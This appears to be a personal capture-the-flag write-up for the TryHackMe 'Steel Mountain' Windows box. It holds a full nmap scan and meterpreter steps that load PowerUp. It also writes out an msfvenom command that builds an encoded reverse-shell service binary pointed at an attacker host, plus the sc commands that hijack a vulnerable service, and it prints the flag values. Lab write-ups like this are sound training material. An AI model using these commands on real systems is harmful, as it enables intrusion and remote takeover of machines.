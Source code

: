 ```yaml
---
name:
  - "Steel Mountain\r"
Date: 17 April 2024
Platform: windows
Category: paid
Difficulty: easy
tags:
  - THM
Status: solve
IP: 10.10.185.218
---
```


# Machine 



# Resolution summary
- Text
- Text

## Improved skills
- privilege escalation
- manual exploitations and metasploit
- scanning network

## Used tools
- nmap
- gobuster
- metasploit
- PowerUps
- powershell
- command shell
- 

---

# Information Gathering
Scanned all TCP ports:
```bash
# Nmap 7.94SVN scan initiated Wed Apr 17 16:48:09 2024 as: nmap -sS -p- -A -T4 -oN tcp_scan.md 10.10.185.218
Nmap scan report for 10.10.185.218
Host is up (0.20s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2024-04-17T21:10:28+00:00; +22s from scanner time.
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2024-04-16T20:14:33
|_Not valid after:  2024-10-16T20:14:33
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2024-04-17T21:10:20+00:00
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49169/tcp open  msrpc              Microsoft Windows RPC
49170/tcp open  msrpc              Microsoft Windows RPC
Aggressive OS guesses: Microsoft Windows Server 2012 (96%), Microsoft Windows Server 2012 R2 (96%), Microsoft Windows Server 2012 R2 Update 1 (96%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (96%), Microsoft Windows Vista SP1 (96%), Microsoft Windows Server 2012 or Server 2012 R2 (95%), Microsoft Windows 7 or Windows Server 2008 R2 (94%), Microsoft Windows Server 2008 SP2 Datacenter Version (93%), Microsoft Windows Server 2008 R2 (93%), Microsoft Windows Home Server 2011 (Windows Server 2008 R2) (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 21s, deviation: 0s, median: 21s
| smb2-time: 
|   date: 2024-04-17T21:10:22
|_  start_date: 2024-04-17T20:14:24
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:65:f4:3b:9c:27 (unknown)
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   208.07 ms 10.8.0.1
2   208.04 ms 10.10.185.218

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 17 17:10:07 2024 -- 1 IP address (1 host up) scanned in 1319.00 seconds

```

---

# Enumeration
## Port 80 - HTTP (Apache)
![](img/BillHarper.png)
## port 8080
![](img/hfs8.png)

---
# Exploitation
## Name of the technique

![](img/hfs.png)

![](img/rejetto.png)

![](img/getuid.png)

![](img/user.png)

---


---

# Privilege Escalation
## Local Enumeration
```
meterpreter > upload /home/kali/30-days/Day_5/PowerUp.ps1
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```
![](img/path.png)

## Escalation phase
Let's create our  malicious binary that will help us get higher privileged reverse shell using *msfvenom*: 
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.45.125 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCervice.exe
```
![](img/msf.png)
```
upload /home/kali/30-days/Day_5/ASCService.exe
sc stop AdvancedSystemCareService9
Shortly followed by;
sc start AdvancedSystemCareService9
```
![](img/ASC.png)

---
# Trophy & Loot
user.txt
```
b04763b6fcf51fcd7c13abc7db4fd365
```

root.txt
```
9af5f314f57607c00fd09803a587db80
```